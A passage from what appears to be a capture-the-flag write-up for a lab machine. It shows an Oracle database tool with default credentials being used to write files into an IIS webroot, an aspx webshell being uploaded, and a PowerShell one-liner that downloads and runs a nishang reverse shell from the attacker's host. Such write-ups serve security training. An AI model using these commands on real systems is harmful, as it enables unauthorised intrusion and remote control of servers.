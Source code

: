 ## Webshell

There was a webserver listening on 80, with the default iis page. Since we can upload, let’s upload a webshell:
- First, let’s verift that we can write to the webroot (and that it is in the default location):

  ```

  root@kali# odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.txt <(echo 0xdf was here)

  [1] (10.10.10.82:1521): Put the /dev/fd/63 local file in the C:\inetpub\wwwroot path (named 0xdf.txt) of the 10.10.10.82 server
  [+] The /dev/fd/63 local file was put in the remote C:\inetpub\wwwroot path (named 0xdf.txt)
  root@kali# curl http://10.10.10.82/0xdf.txt
  0xdf was here

  ```
- Nice. What kind of shell uploads will work:
  - php shell uploads, but then gets a 404 on request
  - asp does the same
  - aspx…

  ```

  root@kali# odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.aspx /usr/share/webshells/aspx/cmdasp.aspx
    
  [1] (10.10.10.82:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot path (named 0xdf.aspx) of the 10.10.10.82 server
  [+] The /usr/share/webshells/aspx/cmdasp.aspx local file was put in the remote C:\inetpub\wwwroot path (named 0xdf.aspx)

  ```

  ![](https://0xdfimages.gitlab.io/img/silo-webshell-whoami.png)

## User Shell

Now with a functioning webshell, let’s get a real shell:

Grab a copy of nishang’s poweshell reverse shell and add the line to call it at the bottom of the file:

```

root@kali# cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1 .
root@kali# tail -1 Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.48 -Port 8084

```

Use SimpleHTTPServer to offer it, and then issue the following to the webshell:
`powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/Invoke-PowerShellTcp.ps1')`

